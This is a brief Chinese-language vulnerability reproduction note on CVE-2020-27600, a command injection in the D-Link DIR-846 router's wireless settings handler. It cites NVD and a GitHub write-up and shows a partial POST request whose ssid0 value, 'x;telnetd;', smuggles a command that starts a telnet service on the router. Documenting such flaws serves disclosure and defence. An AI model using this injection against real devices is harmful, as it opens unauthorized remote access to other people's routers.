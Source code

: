 # D-Link DIR-846 命令注入漏洞 CVE-2020-27600

# D-Link DIR-846 命令注入漏洞 CVE-2020-27600

## 漏洞描述

D-Link DIR-846 A1_100.26 路由器中的HNAP1/control/SetMasterWLanSettings.php允许远程攻击者通过ssid0或ssid1参数进行执行任意命令。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2020-27600
- https://github.com/pwnninja/dlink/blob/main/DIR-846_SetMasterWLanSettingsCI.md

## 漏洞复现

需要登录Web控制台，然后访问/Wireless.html无线设置页面。

```
POST  /HNAPI HTTP/1.1
...
$data["ssid0"]="'x;telnetd;'"
```



